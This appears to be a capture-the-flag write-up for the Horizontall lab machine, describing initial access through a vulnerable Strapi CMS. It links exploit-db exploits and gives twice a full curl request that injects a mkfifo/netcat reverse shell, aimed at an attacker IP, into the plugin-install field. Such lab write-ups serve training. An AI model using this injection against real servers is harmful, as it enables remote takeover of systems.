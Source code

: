 # Getting initial shell as strapi user
## Knowing strapi version running as CMS on http://horizontall.htb/
Got strapi version running as CMS on http://horizontall.htb/ on address http://api-prod.horizontall.htb/admin/init
![[Pasted image 20210910144351.png]]
## Found exploit for strapi version 3.0.0-beta.17.4 on exploit-db
Found exploit for strapi version 3.0.0-beta.17.4 on [exploit-db](https://www.exploit-db.com/exploits/50239).
## Executed above exploit to get Remote code execution on target system and getting reverse shell
![[Pasted image 20210910154320.png]]
## Other ways to get initial shell
### 1) Set password for user exploit and getting JWT token via burp and then getting reverse shell via CURL command 
* In this [exploit](https://www.exploit-db.com/exploits/50237), password for `admin`
user can be set and can be logged in as admin user on http://api-prod.horizontall.htb/admin via command `python exploit_password_reset.py`
* Then we can get JWT token while uploading file in 'Files Upload' section by intercepting request in burp.
* Then we can get reverse shell via this curl command `curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMxMzQ4OTU1LCJleHAiOjE2MzM5NDA5NTV9.cZRCsohwMC4ETPFaPuUwcaA4W7YSbUV6Cogm2SRrwj8' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.98 9000 >/tmp/f)\",\"port\":\"80\"}' $'http://api-prod.horizontall.htb/admin/plugins/install'`
### 2) Getting JWT token via code on [website](https://thatsn0tmysite.wordpress.com/2019/11/15/x05/) and getting reverse shell via CURL
* We can get JWT token by running python script on [website](https://thatsn0tmysite.wordpress.com/2019/11/15/x05/) via command `python test.py admin@horizontall.htb http://api-prod.horizontall.htb codibert`.
* Then we can get reverse shell via this curl command `curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMxMzQ4OTU1LCJleHAiOjE2MzM5NDA5NTV9.cZRCsohwMC4ETPFaPuUwcaA4W7YSbUV6Cogm2SRrwj8' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.98 9000 >/tmp/f)\",\"port\":\"80\"}' $'http://api-prod.horizontall.htb/admin/plugins/install'`

